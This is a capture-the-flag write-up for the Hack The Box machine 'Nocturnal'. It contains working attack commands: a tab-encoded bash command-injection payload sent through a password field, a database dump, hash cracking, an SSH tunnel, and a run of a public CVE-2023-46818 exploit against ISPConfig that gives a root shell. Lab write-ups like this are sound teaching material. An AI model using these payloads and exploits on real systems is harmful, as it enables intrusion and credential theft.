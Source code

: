 ```yaml
---
name: Nocturnal
difficulty: easy
os: linux
platform: htb
date: 9999

img: https://labs.hackthebox.com/storage/avatars/c9efb253e7d1d9b407113e11afdaa905.png
---
```


## Enumeration

### Port Scan

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.64 -o allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We try to connect to the web service but redirects us to `http://nocturnal.htb`, so it is necessary to add the domain to our `/etc/hosts` file:
```bash
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

We do nmap scan with service version detection and script scanning using `-sC` and `-sV` options:
```bash
nmap -p 22,80 -sCV nocturnal.htb -o targeted
```
```
ORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 202688700851eede3aa6204187962517 (RSA)
|   256 4f800533a6d42264e9ed14e312bc96f1 (ECDSA)
|_  256 d9881f68438ed42a52fcf066d4b9ee6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Welcome to Nocturnal
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We look for directories and files in the web application using `gobuster`:
```bash
gobuster dir -u http://nocturnal.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nocturnal.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 302) [Size: 0] [--> login.php]
/backups              (Status: 301) [Size: 178] [--> http://nocturnal.htb/backups/]
/index.php            (Status: 200) [Size: 1524]
/uploads              (Status: 403) [Size: 162]
```

## User Exploitation

We can see that its posible to list users via URL:
```bash
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf' -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -mc 200 -H "Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt" -fr "User not found."
```  
``` 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt
 :: Header           : Cookie: PHPSESSID=jtv19rd5dq7fs8202f2p9fgfgt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Regexp: User not found.
________________________________________________

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 97ms]
amanda                  [Status: 200, Size: 3319, Words: 1178, Lines: 129, Duration: 107ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 115ms]
``` 

We can access `http://nocturnal.htb/view.php?username=amanda&file=*.pdf` and see if there are any files uploades by the user. `admin` and `tobias` have not uploaded any files.

User `amanda` has uploaded a file called `privacy.odt`. If we unzip it we can find a file called `content.xml` that contains the following credentials:
```xml
amanda:arHkG7HAI68X8s1J
```

We can use these credentials to login to the web application at `http://nocturnal.htb/login.php` and access the admin panel.

We can see its displaying source code of the web app. We can see password field is vulnerable to RCE.
We try several payloads and we find that the following payload works:
```
password=%09bash%09-c%09"<payload>"%09&backup=
```

We execute the following command to get the contents of the db
```bash
password=%09bash%09-c%09"sqlite3%09../nocturnal_database/nocturnal_database.db%09.dump"&backup=
```
```
VALUES(1,'admin','d725aeba143f575736b07e045d8ceebb');
INSERT INTO users VALUES(2,'amanda','df8b20aa0c935023f99ea58358fb63c4');
INSERT INTO users VALUES(4,'tobias','55c82b1ccd55ab219b3b109b07d5061d');
```

We use `https://crackstation.net/` to crack the hashes and we find the following credentials:
```
tobias:slowmotionapocalypse
```

We use these credentials to login via SSH:
```bash
ssh tobias@10.10.11.64
```

We find the user flag in the home directory of the user `tobias`:
```bash
cat /home/tobias/user.txt
```
```
user flag value
```

## Root Exploitation

We use `linpeas.sh` to check for privilege escalation vectors
We see there is a web service running in port 8080 which is not open outside the machine. We do a ssh tunnel to access the web service:
```bash
ssh -L 8080:localhost:8080 tobias@10.10.11.64
```

We can access the web service at `http://localhost:8080` and we are greeted with a ISP Config login page.
We can use the credentials we found earlier to login:
```
admin:slowmotionapocalypse
``` 

We can check which version of ISP Config is running by checking the footer of the page. Its version `3.2.10p1`, vulnerable to CVE-2023-46818.

We clone the exploit repository from `https://github.com/ajdumanhug/CVE-2023-46818.git` and run the exploit:
```bash
git clone https://github.com/ajdumanhug/CVE-2023-46818.git
cd CVE-2023-46818
python3 CVE-2023-46818.py http://localhost:8080 admin slowmotionapocalypse 
```

We get a reverse shell as root and we can find the root flag in the root directory:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
This writeup details the steps taken to exploit the Nocturnal machine on Hack The Box, from initial enumeration to privilege escalation and obtaining both user and root flags. The process involved web application exploitation, user credential cracking, and leveraging a known vulnerability in ISP Config to gain root access.
This writeup serves as a guide for those looking to understand the exploitation techniques used in this machine and can be used as a reference for similar challenges in the future.
This writeup is intended for educational purposes only and should not be used for malicious activities.
